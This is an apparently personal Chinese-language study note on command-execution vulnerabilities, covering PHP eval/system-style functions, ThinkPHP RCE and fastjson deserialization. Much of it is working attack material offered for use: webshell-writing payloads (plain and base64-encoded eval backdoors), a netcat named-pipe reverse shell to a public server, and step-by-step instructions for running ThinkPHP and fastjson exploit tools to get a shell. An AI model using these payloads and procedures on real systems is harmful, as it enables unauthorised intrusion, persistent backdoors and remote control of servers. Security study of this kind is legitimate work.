# 命令执行漏洞

### 一、命令执行漏洞简介

1. 产生原因：应用未对用户输入做严格地检查过滤，导致**用户输入的参数被当作命令执行**，一般分为**代码执行**与**命令执行**

2. 危害：

   > 1. 执行系统命令或读取文件
   > 2. 反弹shell
   > 3. 进一步内网渗透

3. 漏洞出现位置：

   > 1. 代码里面存在**命令执行函数**并且输入参数可以控制
   > 2. 代码里面存在**代码执行函数**并且输入参数可以控制
   > 3. 网站存在历史漏洞（低版本的TP框架存在漏洞）

### 二、远程代码执行函数

> 在进行代码审计时，若发现这些函数的参数需要用户上传，则可以检测是否存在命令执行漏洞

1. `eval(string $code)`：把字符串作为PHP代码执行，且`$code`必须以`;`结尾

   > 可以在$code中调用`system()`函数执行系统命令

2. `assert(mixed $asserion [,Throwable $exception]):bool`：检查一个断言是否为False

   > $asserion：断言语句，当其为字符串时，会被当作PHP代码执行，且不要求PHP代码必须以`;`结尾
   >
   > $exception：断言失败抛出的对象

3. `preg_replace("/A/e",B,C)`：执行一个正则表达式的搜索与替换

   > 在C中搜索A替换为B，但这不重要，重要的是PCRE修饰符**e**，会把替换后的字符串作为PHP代码执行，即**把B当作PHP代码执行**
   >
   > ==此修饰符在php5.5.0之后被弃用==
   >
   > ~~~php
   > <?php
   > highlight_file(__FILE__);
   > if(isset($_GET['data']))
   > {
   > $data = $_GET['data'];
   > # \1是指代正则表达式中的第一个分组，.*表示非换行符出现任意次数，就是将$data中的所有小写转换为大写，再执行/e
   > $data = preg_replace('/(.*)/e', 'strtoupper("\\1")',$data);	
   > # 漏洞：strtoupper("\\1")中双引号中的变量不会被当作字符串解析，所以利用${}可以绕过
   > # 防御方法：使用strtoupper('\\1')
   > print $data;
   > }
   > ?>
   > ~~~
   >

4. `array_map(callable $callback, array $array)`：将数组中的数据作为参数传递给回调函数执行（$callback为其函数名）

   > 令`$callback=assert`即可完成远程代码执行，而`eval`不行

5. `create_function(string $args, string $code)`：通过传参创建一个匿名函数

   > 其内部会执行一遍eval函数的指令，所以`$code`中的代码可直接执行且需要以`;`结尾

6. `call_user_func(callable $callback [,mixed $parameter [,mixed…]])`：将第一个参数作为回调函数，其余的参数为回调函数的参数

   > 令`$callback=assert`即可完成远程代码执行，而`eval`不行

7. `call_user_func_array(callable $callback, array $param_arr)`：将第一个参数作为回调函数，第二个参数数组作为回调函数的参数传入

   > 令`$callback=assert`即可完成远程代码执行，而`eval`不行
   >
   > 且在传入第二个参数的时候要求传入一个数组，需要`arr[]=执行代码`
   >
   > ---
   >
   > 如：`http://127.0.0.1/test/1.php?func=assert&p[]=phpinfo()`

8. `array_filter(array $array[, callable $callback[, int $flag = 0]])`：将第一个参数作为回调函数，第二个参数数组作为回调函数的参数传入，第三个参数决定callback接收的参数形式

   > 令`$callback=assert`即可完成远程代码执行，而`eval`不行

---

更多执行函数请参考文章：[php代码/命令执行漏洞 | Chybeta](https://chybeta.github.io/2017/08/08/php代码-命令执行漏洞/)

> 其它方式：利用双引号执行远程代码
>
> ~~~text
> 在php中，双引号里面如果包含变量，php解释器会将其替换为变量解释后的结果
> 我们可以利用这一点来执行远程代码——
> <?php
> 	echo "${phpinfo()}";
> 	echo "${@assert($_POST(a))}";
> ?>
> ------------------------------------------------------------------------------------------------
> 利用方式：
> 若将用户输入的数据作为字符串保存，且使用的是双引号，则可以通过直接上传payload进行getshell
> > payload就是双引号内的数据，如上传${@eval($_POST['pass']);}
> ~~~

### 三、系统命令执行函数

1. `system($command)`：执行一个系统命令，将**命令结果的最后一行**作为返回值返回
2. `exec($command)`：执行一个系统命令，将命令结果作为字符串输出到浏览器中，并返回true或false
3. `passthru($command[, $return_var])`：执行一个系统命令，将命令结果作为字符串输出到浏览器中，并通过第二个参数返回是否执行成功 —— 1为失败；0为成功
4. `shell_exec()`：通过shell环境执行命令，并且将**完整的输出**以字符串的方式通过返回值返回
5. `pcntl_exec()`：在当前进程空间执行指定程序
6. `popen()`：打开进程文件指针
7. `proc_open()`：执行一个命令，并且打开用来输入/输出的文件指针

---

> 其它方式：用反引号执行系统命令
>
> ~~~php
> <?php
> 	$cmd = $_POST['cmd'];
> 	echo `cmd`;				// 等效于：1.$res = shell_exec($cmd);	2.echo "$res";
> >
> ~~~

### 四、远程系统命令执行

* cmd1|cmd2	→	连续执行两个命令，且报错不中断
* cmd1;cmd2	→	连续执行两个命令，且报错不中断
* cmd1||cmd2	→	仅在cmd1执行失败的情况下，才会执行cmd2
* cmd1&&cmd2	→	仅在cmd1执行成功的情况下，才会执行cmd2
* cmd1\$(cmd2)
* \`cmd\`	→	执行系统命令

### 五、利用命令执行漏洞写Shell

1. 上传shell：注意引号的问题，双引号中的$字符要添加转义符号（方式一、二、三利用system函数执行）

   > 方式一：`echo "<?php @eval(\$_POST['pass']); ?>" > 保存的相对路径`
   >
   > 方式二：`echo '<?php ($_=@$_GET[2]).@_($_POST[1])?>'> 保存的相对路径`
   >
   > > 该方式需要在使用时传参，通过GET传参获取要执行的命令（一般为assert或system），通过POST传参获取命令参数
   >
   > **方式三**：`echo "PD9waHAgQGV2YWwoJF9QT1NUWydwYXNzJ10pOyA/Pg==" | base64 -d  > 保存的相对路径`
   >
   > 
   >
   > 方式四：使用`file_put_contents`函数直接写入文件
   >
   > > file_put_contents：第一个参数问文件名，第二个参数为文件内容
   >
   > 

2. nc反弹shell（利用system函数执行）

   > `mkfifo /tmp/pipe;sh /tmp/pipe | nc 公网服务器ip 监听的端口 > /tmp/pipe`

### 六、ThinkPHP漏洞

1. ThinkPHP的介绍：ThinkPHP简称TP框架，是免费开源的、轻量级的、简单快速且敏捷的PHP框架

2. ThinkPHP的特征：

   

3. ThinkPHP可以通过故意报错获得其版本信息

   

4. ThinkPHP漏洞：

   > 1. 漏洞简介：对ThinkPHP5框架**对控制器名没有进行严格的安全检测**，导致在没有开启强制路由的情况下，攻击者构造指定的请求，可以直接getshell
   > 2. 在网上通过TP的版本号搜索指定漏洞的POC[^注1]或者利用漏洞探测工具获取POC，模仿POC进行攻击

5. 漏洞利用工具：

   > 漏洞检测（检测是否存在漏洞）：[TPscan](https://github.com/Lucifer1993/TPscan/stargazers)
   >
   > 漏洞利用（获取POC）： [ThinkphpRCE](https://github.com/sukabuliet/ThinkphpRCE)
   >
   > ---
   >
   > ThinkphpRCE使用步骤：
   >
   > 1. 首先使用脚本探测指定URL：`python thinkphp_rce.py -u http://120.27.61.239:8080/vulnlab/exec/thinkphp5/thinkphp50/public/index.php`
   >
   > 2. 复制得到的payload去浏览器使用：
   >
   >    
   >
   >    
   >
   > 3. 测试payload成功后，更改payload的参数（参考：[远程代码执行函数](#远程代码执行函数)）去[写shell](#写shell)
   >
   >    
   >
   >    
   >
   > 4. 利用蚁剑getshell
   >
   >    
   >

### 七、fastjson命令执行漏洞

1. json的介绍：[JSON](https://baike.baidu.com/item/JSON)(JavaScript Object Notation, JS 对象简谱) 是一种轻量级的数据交换格式。它基于ECMAScript(欧洲计算机协会制定的js规范)的一个子集，采用完全独立于编程语言的文本格式来存储和表示数据。

   > 数据格式：使用花括号包裹键值对
   >
   > 

2. fastjson：是一款阿里巴巴的开源json解析库，它可以解析JSON格式的字符串，支持讲Java Bean序列化[^注2]为JSON字符串，也可以从JSON字符串反序列化[^注2]到JavaBean

   > 识别fastjson：故意报错，看返回包
   >
   > 1.  将网站的访问请求修改为POST类型
   > 2. 修改`Content-type`字段为`application/json`
   > 3. 在请求体中添加json数据，然后不做闭合（最简单的方式就是输入一个`{`）
   > 4. 查看返回包中是否含有fastjson字样的字符串

3. fastjson漏洞复现：

   ~~~text
   补充知识：RMI
   Java RMI（Java Remote Method Invocation），即Java远程方法调用。是Java编程语言里，一种用于实现远程过程调用的应用程序编程接口。
   RMI 使用 JRMP（Java Remote Message Protocol，Java远程消息交换协议）实现，使得客户端运行的程序可以调用远程服务器上的对象。是实现RPC的一种方式。
   -----------------------------------------------------------------------------------------------------
   参考资料：https://www.jianshu.com/p/5c6f2b6d458a
   ~~~

   > 1. 在公网服务器上开启RMI服务，并编写恶意java类（实现新增文件、创建目录、反弹shell）
   >
   >    > 1. 利用javac编译javac文件，然后放入服务器的http目录
   >    >
   >    >    > 1. 编写java文件：以TouchFile.java为例
   >    >    > 2. 编译java文件：javac TouchFile.java    →    生成TouchFile.class
   >    >
   >    > 2. 借助[marshalsec-0.0.3-SNAPSHOT-all.jar](https://github.com/RandomRobbieBF/marshalsec-jar)开启RMI服务
   >    >
   >    >    > 1. 确保目录下有marshalsec-0.0.3-SNAPSHOT-all.jar文件
   >    >    >
   >    >    > 2. 执行命令：`java -cp marshalsec-0.0.3-SNAPAHOT-all.jar marshalsec.jndi.RMIRefServer "http://服务器ip/#恶意类名" 监听端口`
   >    >    >
   >    >    >    
   >
   > 2. 在网上查找对应版本的POC，然后更改参数左右POST的请求的请求体即可

4. 漏洞利用工具：[mrknow001/fastjson_rec_exploit: fastjson一键命令执行 (github.com)](https://github.com/mrknow001/fastjson_rec_exploit)

   > **利用fastjson_check.py批量检测漏洞是否存在**
   >
   > 1. 将要检测的URL放到target.txt中
   >
   > 2. 执行`python fastjson_check.py`命令查看结果
   >
   >    
   >
   > ---
   >
   > **利用fastjson_tool.jar进行反弹shell**
   >
   > 1. 写好反弹shell的语句，进行编码
   >
   >    > 1. 进入网站：[@Jackson_T (jackson-t.ca)](http://www.jackson-t.ca/)
   >    >
   >    > 2. 下滑选择此选项：
   >    >
   >    > 3. 进行编码：
   >    >
   >    >    
   >
   > 2. 在公网服务器上保存fastjson_tool.jar的文件内执行指令：
   >
   >    `java -cp fastjson_tool.jar fastjson.HRMIServer 公网服务器地址 发送指令的端口 "编码后的反弹shell指令"`
   >
   >    
   >
   > 3. 复制生成的payload，在bp中使用即可
   >
   >    > 1. 将网站的访问请求修改为POST类型
   >    >
   >    > 2. 修改`Content-type`字段为`application/json`
   >    >
   >    > 3. 添加请求体数据为复制的payload，发送数据
   >    >
   >    >    
   >    >
   >    > 4. 前往监听端口，接收反弹shell
   >    >
   >    >    

5. `1.2.67`版本之前通用的POC：验证是否存在漏洞

   ~~~text
   {
   	"a":
   	{
   		"@type":"java.net.lnet4Address",
   		"val":"DNSlog服务器给出的地址"
   	}
   }
   ~~~

---

[^注1]:  POC：Proof of Concept，中文意思是“观点证明”。这个短语会在漏洞报告中使用，漏洞报告中的POC则是一段说明或者一个攻击的样例，使得读者能够确认这个漏洞是真实存在的。
[^注2]: 序列化分为两大部分：序列化和反序列化。序列化是这个过程的第一部分，将数据分解成字节流，以便存储在文件中或在网络上传输。反序列化就是打开字节流并重构对象。对象序列化不仅要将基本数据类型转换成字节表示，有时还要恢复数据。恢复数据要求有恢复数据的对象实例。

